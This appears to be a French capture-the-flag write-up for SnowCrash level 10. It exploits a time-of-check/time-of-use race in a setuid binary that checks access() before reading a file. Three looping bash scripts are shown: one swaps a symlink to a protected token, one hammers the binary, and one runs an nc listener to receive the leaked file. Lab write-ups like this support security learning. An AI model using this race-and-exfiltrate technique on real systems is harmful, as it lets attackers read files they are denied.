

# Level10

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Le programme nous refuse l'accès à token

```bash
level10@SnowCrash:~$ ./level10 token 0.0.0.0
You don't have access to token
```

Avec objdump nous remarquons que le binaire utilise access 

```asm
8048746:       89 04 24                mov    %eax,(%esp)
 8048749:       e8 92 fe ff ff          call   80485e0 <access@plt>
 804874e:       85 c0                   test   %eax,%eax
```

Sur le man de access il est stipulé qu'il peut y avoir une faille de sécurité:



Il faudrait donc faire en sorte de changer rapidement le fichier au quel nous avons les droits par un lien symbolique vers un fichier dont nous n'avons pas les droits, dans le court laps de temps séparant l'appel à access et la lecture du fichier

Nous procédons avec 3 scripts lancés en parallèle sur des terminaux SSH concurrents:

```bash
level10@SnowCrash:/tmp$ cat prog.sh
while [ 1 ]
do
        rm /tmp/test
        touch /tmp/test
        rm /tmp/test
        ln -s /home/user/level10/token /tmp/test
done
```

```bash
level10@SnowCrash:/tmp$ cat prog2.sh
while [ 1 ]
do
        /home/user/level10/level10 /tmp/test 0.0.0.0
done
```

```bash
level10@SnowCrash:/tmp$ cat prog3.sh
while [ 1 ]
do
         nc -l 0.0.0.0 6969 > /tmp/mytok
        cat /tmp/mytok
done
```


Sorti du script prog3.sh:

```bash
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
...
```

Quelques occurences nous donne effectivement le contenu du fichier token

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```